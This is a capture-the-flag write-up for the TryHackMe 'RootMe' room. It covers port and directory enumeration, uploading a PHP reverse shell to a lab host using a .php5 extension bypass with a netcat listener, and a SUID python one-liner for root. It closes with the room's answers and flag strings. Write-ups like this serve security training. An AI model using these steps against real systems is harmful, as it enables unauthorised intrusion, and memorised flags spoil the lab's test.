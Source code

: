 # THM - RootMe
**security - web - linux - privilege-escalation**

## Enumeration
IP Address : 10.10.234.144
### 1.1 
#### nmap
**nmap -A 10.10.234.144**
	- 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	- 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.234.144 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
    - /uploads => we can see files uploaded
    - /css
    - /js
    - /panel => it is possible to upload files
### Conclusion, vulnerabilities
2 open ports, 80  work with Apache, and /panel possibly weak for reverse shell in php

## Exploit
### 1.1
#### reverse shell
**nc -nlap 1337**
Start home server who listen. 
Dl a php reverse shell and put my ip address (ifconfig).
Test differtents extensions files like .php5.
Go to /upload and execute payload.
In homer server : **locate *.txt** and find /var/www/user.txt
### Conclusion
Payload can be uploaded and executed in a simply way, use locate to find the first flag.

## Privilege escalation
### 1.1
#### sudo
Search files with SUID : **find . -perm /4000
    - /usr/bin/python
Search to GTFOBins "python" and find 
    - ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
**cat root/root.txt**

## Responses
### Scan the machine, how many ports are open? : 
**2**
### What version of Apache is running? : 
**2.4.29**
### What service is running on port 22? : 
**SSH**
### What is the hidden directory?? : 
**/panel/**
### user.txt : 
**THM{y0u_g0t_a_sh3ll}**
### Search for files with SUID permission, which file is weird? : 
**/usr/bin/python**
### root.txt : 
**THM{pr1v1l3g3_3sc4l4t10n}**